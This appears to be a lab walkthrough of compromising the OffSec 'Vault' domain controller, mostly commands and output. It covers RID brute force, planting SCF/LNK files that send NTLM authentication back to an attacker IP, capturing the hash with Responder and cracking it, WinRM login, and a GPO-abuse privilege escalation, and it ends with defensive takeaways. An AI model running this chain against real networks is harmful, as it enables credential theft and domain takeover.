

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows Server 2019 |
| Difficulty                | Not specified |
| Attack Surface            | Active Directory (SMB, Kerberos) |
| Primary Entry Vector      | SMB Guest RID brute force, NTLMv2 hash theft via SCF/LNK files on writable share |
| Privilege Escalation Path | GPO abuse (SharpGPOAbuse) — AddLocalAdmin via Default Domain Policy |

## Credentials

```text
anirudh SecureHM
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.172:53
Open 192.168.198.172:88
Open 192.168.198.172:135
Open 192.168.198.172:139
Open 192.168.198.172:389
Open 192.168.198.172:445
Open 192.168.198.172:464
Open 192.168.198.172:593
Open 192.168.198.172:636
Open 192.168.198.172:3389
Open 192.168.198.172:5985
Open 192.168.198.172:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-20 15:28:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

SMB Guest access was available. RID brute force enumerated the domain user `anirudh`:

```bash
netexec smb $ip -u 'guest' -p '' --rid-brute
```

```bash
SMB         192.168.198.172 445    DC               [+] vault.offsec\guest:
SMB         192.168.198.172 445    DC               500: VAULT\Administrator (SidTypeUser)
SMB         192.168.198.172 445    DC               501: VAULT\Guest (SidTypeUser)
SMB         192.168.198.172 445    DC               502: VAULT\krbtgt (SidTypeUser)
SMB         192.168.198.172 445    DC               1103: VAULT\anirudh (SidTypeUser)
```

Anonymous SMB listing revealed a `DocumentsShare` with write permissions:

```bash
smbclient -L //$ip -N
```

```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
```

Since the share was writable, ntlm_theft was used to generate malicious SCF/LNK files that trigger NTLM authentication back to the attacker:

```bash
python3 ~/tools/ntlm_theft/ntlm_theft.py -g all -s 192.168.45.166 -f test.lnk
```

Placed the files on `DocumentsShare` and started Responder to capture the NTLMv2 hash:

```bash
sudo responder -I tun0 -wv
```

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:87b0e379e5dca539:1B7B4B345ABB2B32B8364F10F23A7EBF:0101000000000000...
```

Cracked the NTLMv2 hash with john:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
SecureHM         (anirudh)
```

Authenticated with evil-winrm:

```bash
evil-winrm -i $ip -u anirudh -p SecureHM
```

```bash
*Evil-WinRM* PS C:\users\anirudh\desktop> type local.txt
48c503ff23cfdc9eea6e9b850b99283b
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
Enumeration of GPO permissions revealed that `anirudh` had `GpoEditDeleteModifySecurity` on the Default Domain Policy:

```bash
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetName anirudh -TargetType User
```

```bash
Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```

SharpGPOAbuse was used to add anirudh as a local administrator through the Default Domain Policy:

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

```bash
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

Forced a Group Policy update and confirmed membership:

```powershell
gpupdate /force
net localgroup administrators
```

```bash
Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

```powershell
type c:\users\administrator\desktop\proof.txt
e736f381d5f22305fcfdd93a07d75429
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Disable Guest SMB access and restrict RID brute force by removing anonymous SID enumeration.
- Never allow write access on shared folders from unauthenticated or low-privilege users — NTLMv2 theft via SCF/LNK files is trivial.
- Audit GPO permissions regularly — `GpoEditDeleteModifySecurity` on Default Domain Policy allows instant domain compromise.
- Use strong, non-dictionary passwords — NTLMv2 hashes cracked with rockyou.txt indicate weak password policy.
- Monitor for SharpGPOAbuse-style modifications to GPOs and alert on unexpected local admin additions.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- ntlm_theft: https://github.com/Greenwolf/ntlm_theft
- SharpGPOAbuse: https://github.com/FSecureLABS/SharpGPOAbuse
- Responder: https://github.com/lgandx/Responder
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- NetExec: https://github.com/Pennyw0rth/NetExec
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
